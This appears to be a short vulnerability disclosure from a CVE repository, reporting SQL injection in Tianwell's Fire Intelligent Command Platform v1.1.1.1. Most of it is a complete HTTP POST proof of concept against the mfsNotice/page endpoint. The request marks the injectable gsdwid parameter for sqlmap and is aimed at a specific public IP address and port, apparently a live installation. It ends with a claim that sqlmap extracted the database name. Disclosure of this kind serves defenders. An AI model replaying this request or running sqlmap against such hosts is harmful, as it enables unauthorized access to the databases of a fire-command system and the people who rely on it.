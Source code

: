 There is SQL injection in Tianwell Information Technology Fire Intelligent Command Platform

version:v1.1.1.1

1. The login interface is as shown below
![image](https://github.com/scausoft/cve/assets/40783968/e696c535-4160-40c2-9232-814d89a951d2)

2. Obtain the database name through the following gsdwid parameter. The POC is as follows

POC
```
POST /twms-service-mfs/mfsNotice/page HTTP/1.1
Host: 111.38.174.252:8800
Content-Length: 106
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://111.38.174.252:8800
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://111.38.174.252:8800/twms-service-mfs/mfsNotice/page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"currentPage":1,"pageSize":19,"query":{"gsdwid":"1f95b3ec41464ee8b8f223cc41847930*"},"hgubmt748n4":"="}
```
3.Run out the database name through sqlmap
![image](https://github.com/scausoft/cve/assets/40783968/7ee7beda-f62a-4977-a9dd-17fd4f69e224)
![image](https://github.com/scausoft/cve/assets/40783968/cae3cb79-3ec8-46a5-87e5-1c5b2b819d41)

